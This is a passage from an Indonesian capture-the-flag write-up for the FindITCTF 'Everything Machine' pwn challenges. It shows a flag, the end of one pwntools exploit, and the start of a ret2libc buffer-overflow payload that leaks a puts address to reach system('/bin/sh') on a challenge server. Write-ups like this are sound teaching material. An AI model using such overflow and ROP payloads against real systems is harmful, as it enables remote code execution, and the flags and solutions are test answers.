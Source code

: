 ```py
    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)

    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})

    exploit(r)
```

![alt_text](images/elevator.png "image_tooltip")

**Flag: FindITCTF{m4m4h_4ku_h3k3r_l33t}**

## Everything Machine 2.0 (931 pts)

Sama seperti vulnerability sebelumnya. Namun, disini tidak ada gadget yang dapat kita gunakan seperti sebelumnya dan sekarang stack tidak memiliki permission executable. Kita tidak dapat eksekusi shellcode, namun bisa melakukan ROP untuk mendapatkan alamat libc dan ROP untuk memanggil `system(“/bin/sh”)`.

```py
#!/usr/bin/env python3

from pwn import *

PATH = './everything4'

HOST = '103.191.63.187'
PORT = 5001

def exploit(r):
    payload  = b'A' * 0x7f4
    payload += p32(elf.sym.puts)
    payload += p32(elf.sym.main)
    payload += p32(elf.got.puts)

```
